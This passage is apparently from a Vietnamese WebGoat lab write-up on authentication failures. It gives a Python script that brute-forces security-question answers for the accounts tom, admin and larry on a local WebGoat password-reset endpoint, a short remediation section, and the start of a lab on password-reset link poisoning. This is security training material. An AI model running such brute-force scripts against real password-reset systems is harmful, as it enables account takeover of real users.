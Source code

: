 ```python
import requests

colors = ["red", "blue", "green", "yellow", "orange", "purple", 
"pink", "brown", "black", "white", "gray", "cyan", "magenta", "lime", "teal", 
"lavender", "maroon", "navy", "olive", "coral", "turquoise", "violet", "gold", "silver", 
"beige", "tan", "peach", "mint", "indigo", "aqua"]

account = ['tom', 'admin', 'larry']

headers = {  
    'Cookie': 'JSESSIONID=0FuKaJFAXbU6Yrw7EPUG24t4MySLL7BSwNIuQ18_'
}  

URL = "http://localhost:8080/WebGoat/PasswordReset/questions"

for acc in account:
    # username=fqw&securityQuestion=fqw
    for color in colors:
        data = {
            "username": acc,
            "securityQuestion": color
        }
        response = requests.post(URL, data=data, headers=headers)
        json = response.json()
        if "Sorry the solution is not correct" not in json["feedback"]:
            print(f"[+] Username: {acc}")
            print(f"[=>] Security Question: {color}")
            break
```

- Chạy payload và thu được các câu hỏi bảo mật đúng của từng tài khoản người dùng

![image.png]((A7)%20Identity%20&%20Auth%20Failure%20ecda853d23ed41a8bd81e356f36b18e3/image%2025.png)

### Cách khắc phục

- Để các câu hỏi bảo mật khó đoán và không có một danh sách trả lời cố định.
    - Ví dụ:
    - **Tên của con vật nuôi đầu tiên của bạn là gì?**
    - **Tên trường tiểu học mà bạn đã học là gì?**
    - **Tên của người bạn thân nhất thời thơ ấu của bạn là gì?**
    - **Tên thành phố nơi bạn sinh ra là gì?**
    - **Tên trường trung học mà bạn đã tốt nghiệp là gì?**

## Lab 6

### Nguyên nhân lỗi

- Không kiểm tra kỹ hết các header được sử dụng cho việc tạo link reset mật khẩu → Điều này khiến cho hacker có thể thao túng đường dẫn reset password và tạo ra một url giả để chiếm được đường dẫn reset password của người dùng.
